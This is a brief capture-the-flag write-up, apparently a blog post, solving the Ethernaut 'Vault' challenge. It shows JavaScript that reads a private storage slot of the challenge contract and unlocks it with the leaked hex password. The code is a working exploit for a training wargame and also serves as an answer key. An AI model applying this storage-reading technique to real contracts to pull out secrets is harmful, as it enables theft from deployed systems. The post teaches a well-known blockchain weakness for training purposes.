 +++
title = 'Ethernaut Level 8 - Vault'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Nothing is hidden on the blockchain'
tags = [ 'writeups' , 'blockchain' ]
+++
> Nothing is hidden on the blockchain
https://medium.com/coinmonks/smart-contract-exploits-part-1-featuring-capture-the-ether-lotteries-8a061ad491b


```js
// Leak 32 bytes at offset 1
await web3.eth.getStorageAt(contract.address, 1)
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29") 
```

